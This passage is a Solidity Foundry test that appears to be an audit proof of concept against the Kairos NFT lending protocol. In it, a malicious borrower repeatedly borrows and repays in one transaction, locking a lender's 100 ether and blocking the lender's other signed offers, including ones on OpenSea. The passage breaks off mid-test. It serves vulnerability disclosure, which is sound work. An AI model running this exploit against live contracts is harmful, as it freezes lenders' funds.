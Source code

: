 ```solidity
    //add minimum cost for DDos protection
    kairos.setMinOfferCost(IERC20(address(money)), minimum_cost);

    vm.label(vm.addr(pkey), "LENDER");
    vm.label(address(kairos), "KAIROS");
    vm.label(address(this), "MALICIOUS_BORROWER");
    vm.label(vm.addr(pkey + 1), "BORROWER");

    uint256 nfttokenid1 = nft.mintOneTo(address(this));
    uint256 nft2tokenid1 = nft2.mintOneTo(vm.addr(pkey + 1));

    //put 100 ether in the lender's wallet
    getFlooz(vm.addr(pkey), money, 100 ether);

    //borrowargs for offer from LENDER for nfttokenid1
    BorrowArg[] memory nfttokenid1_args = generateBorrowargs(
      address(nft),
      nfttokenid1,
      10 ether
    );

    //borrowargs for offer from LENDER for nft2tokenid1
    BorrowArg[] memory nft2tokenid1_args = generateBorrowargs(
      address(nft2),
      nft2tokenid1,
      10 ether
    );

    //malicious user freezes/locks 100 ether of lenders money
    //to position tokens by borrowing 10 ether 10 times and
    //paying it back in the same transaction

    //attacker will need minimum_cost*10 worth of money
    getFlooz(address(this), money, minimum_cost * 10);

    uint256[] memory loanids = new uint256[](1);

    nft.setApprovalForAll(address(kairos), true);
    money.approve(address(kairos), 2 ** 256 - 1);

    //borrow and repay 10 times so that lender's funds are all
    //locked in position tokens
    //in this case attacker pay penalty of 0.01 * 10 = 0.1 eth/money
    for (uint256 i = 0; i < 10; i++) {
      kairos.borrow(nfttokenid1_args);
      loanids[0] = i + 1;

      kairos.repay(loanids);
    }

    console2.log("Lender's balance is now", money.balanceOf(vm.addr(pkey)));

    //now that lender's wallet has been exhausted, none of the
    //lenders' signed payloads will go through

    //whatsmore, the lenders' payloads on other platforms won't go through either
    //for example, if the lender an offchain offer for an NFT on the OpenSea platform
    //when the owner of that NFT accepts the lender's offer, seaport will revert
    //because the lender has no more money

    //pose as legitimate borrower, owner of nft2tokenid1
    vm.startPrank(vm.addr(pkey + 1));

```